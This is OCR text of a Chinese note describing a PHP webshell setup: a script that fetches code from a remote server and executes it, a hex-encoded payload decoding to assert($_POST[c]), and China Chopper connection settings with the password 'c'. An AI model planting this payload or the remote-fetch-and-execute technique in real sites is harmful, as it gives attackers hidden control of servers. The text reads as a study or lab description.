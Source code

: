     >写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)
    >原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。
    >这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);
    >菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c

form : http://tank96a.github.io/article/2015/04/27/php-horse/
